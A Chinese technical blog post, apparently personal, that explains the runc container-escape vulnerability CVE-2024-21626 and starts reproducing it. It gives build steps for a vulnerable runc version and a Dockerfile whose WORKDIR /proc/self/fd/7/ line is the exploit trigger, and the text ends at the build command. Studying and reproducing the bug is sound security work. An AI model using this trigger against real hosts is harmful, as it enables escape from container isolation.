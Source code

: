 ```yaml
---
title: 简单聊聊 CVE-2024-21626
type: tags
date: 2024-02-11 04:00:00
tags: [编程,Linux,笔记,水文]
categories: [编程,Linux,容器]
toc: true
---
```


本来这篇文章应该在初一凌晨发的，但是拖延癌晚期，所以到现在才发，得反思下了



## 背景

总所周知，容器逃逸并不是什么令人稀奇的问题了（不被逃逸的容器才是稀奇），2月初，runc 社区正式公布了一个船新的逃逸 CVE，参见 <https://github.com/opencontainers/runc/security/advisories/GHSA-xr7r-f8xq-vfvv>，版本横跨 1.0 到 1.1.11

这个 CVE 的核心特性在于“可以通过镜像分发的方式，成本很低的进行逃逸”

我们先来复现一下这个问题

我自己的环境是这样

![复现版本](https://github.com/Zheaoli/zheaoli.github.io/assets/7054676/635aadfa-4015-4424-a6d8-2ad1ca3b721b)

看这篇博客的同学可以参考下面方式进行环境准备，

1. 按照自己的发行版确保安装了，Docker, libseccomp, golang
2. 按照下面方式进行环境安装

```bash
git clone https://github.com/opencontainers/runc

git checkout v1.1.0-rc.1

make

sudo rm -rf $(which runc)

sudo make install

sudo systemctl restart docker
```

然后我们可以准备这样一个 Dockerfile

```Dockerfile
FROM ubuntu
 
# Sets the current working directory for this image
WORKDIR /proc/self/fd/7/
```

执行 `docker build . -t test`
